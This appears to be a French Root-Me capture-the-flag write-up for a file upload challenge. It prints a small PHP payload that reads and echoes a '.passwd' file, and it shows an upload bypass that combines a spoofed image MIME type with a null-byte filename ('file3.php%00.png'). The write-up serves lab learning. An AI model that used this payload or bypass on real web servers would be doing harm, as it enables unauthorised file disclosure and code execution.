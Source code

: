 ```yaml
---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
---
```

# But

rÃ©cupÃ©rer un flag surmenet dans \<racine\>/.passwd en uploadant un fichier de type .jpg ou png ou autre - type photo - avec du php cachÃ© dedans

# Fourni

un site avec un bouton pour upload un fichier


# MÃ©thode de rÃ©solution

voir en premier la mÃ©thode de rÃ©solution pour le [[File upload - Type MIME]]

on va donc enovyer un fichier qui nous permettra d'afficher notre fichier comme si c'Ã©tait une image

voici le contenu de notre fichier : 


```
<?php
$homepage = file_get_contents('../../../.passwd');
echo $homepage;
?>
```

je l'ai simplement appellÃ© "file.php"

et lorsque je l'envoie sur le site :

![[Pasted image 20241015223514.png]]

je vais donc essayer d'utiliser le type mime pour faire croire au serveur que j'envoie une image (avec burp suite)

![[Pasted image 20241015223742.png]]


on utilise donc le type MIME et on utilise le null byte %00 pour ne pas ajouter le reste de la requete donc le nom du fichier sera bien file3.php et pas le reste.

voir : [lien](https://www.thehacker.recipes/web/inputs/null-byte-injection)


filename="file3.php%00.png"
Content-Type: image/png


![[Pasted image 20241015224035.png]]



# Conclusion


challenge chouette rÃ©alisÃ© rapidement